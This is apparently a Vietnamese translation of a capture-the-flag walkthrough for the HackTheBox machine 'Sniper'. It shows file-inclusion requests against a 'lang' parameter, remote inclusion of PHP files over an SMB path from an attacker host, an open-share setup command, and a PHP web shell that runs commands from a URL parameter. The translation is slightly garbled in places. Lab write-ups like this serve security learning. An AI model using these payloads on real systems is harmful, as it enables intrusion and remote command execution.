Như được hiển thị trong mã nguồn, nó có thể là mục tiêu cho LFI hoặc RFI vì nó tham chiếu đến một tệp PHP.

![11](https://snowscan.io/assets/images/htb-writeup-sniper/blog2.png)

## Đạt được RCE thông qua RFI trong tham số ngôn ngữ
Để kiểm tra việc bao gồm tệp cục bộ, tác giả sẽ thử bao gồm một tệp Windows mà tôi biết là tồn tại trên máy đích. May mắn cho tôi, tham số `lang sử` dụng tên tệp có phần mở rộng nên tác giả có thể bao gồm bất kỳ tệp nào, không chỉ tệp có phần mở rộng php. Tác giả có thể lấy nội dung của `win.ini` với những thứ sau: 

`GET /blog/?lang=/windows/win.ini`

![12](https://snowscan.io/assets/images/htb-writeup-sniper/lfi1.png)

Tiếp theo, tác giả cố gắng bao gồm tệp từ xa thông qua HTTP với `GET /blog/?lang=http://10.10.14.11/test.php` nhưng không nhận được lệnh gọi lại, vì vậy tôi cho rằng tính năng bao gồm tệp từ xa đã bị vô hiệu hóa hoặc có một số bộ lọc thực hiện trên tham số.

Mặc dù tính năng bao gồm tệp từ xa bị vô hiệu hóa, sử dụng đường dẫn UNC vẫn hoạt động vì nó được coi là đường dẫn cục bộ của PHP và có thể nhận được lệnh gọi lại thông qua SMB trên cổng 445 với `GET /blog/?lang=//10.10.14.11/test /test.php`

![13](https://snowscan.io/assets/images/htb-writeup-sniper/smb1.png)

Tác giả không thể làm cho impacket-smbserver hoạt động ngay với hộp này nên thay vào đó, sẽ sử dụng máy chủ Samba tiêu chuẩn trong Linux và tạo một chia sẻ mở: `net usershare add test /root/htb/sniper/share '' 'Everyone:F' guest_ok=y`

Trước khi cố gắng tải RCE, tác giả sẽ tạo một tệp `info.php` gọi `phpinfo()` để có thể kiểm tra bất kỳ chức năng nào bị tắt:

```php
<?php
phpinfo();
?>
```
Sau khi gọi `phpinfo()` bằng `GET /blog/?lang=//10.10.14.11/test/info.php`, tôi thấy rằng nó đang chạy Windows build 17763 và không có chức năng nào bị tắt.

![14](https://snowscan.io/assets/images/htb-writeup-sniper/info1.png)

![15](https://snowscan.io/assets/images/htb-writeup-sniper/info2.png)

Tiếp theo, tạo một tệp PHP khác để thực thi các lệnh được truyền trong tham số cmd:

```php
<?php
system($_GET["cmd"]);
?>
```
Và với yêu cầu sau, tác giả có thể thực hiện các lệnh: `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=whoami`

![16](https://snowscan.io/assets/images/htb-writeup-sniper/rce1.png)

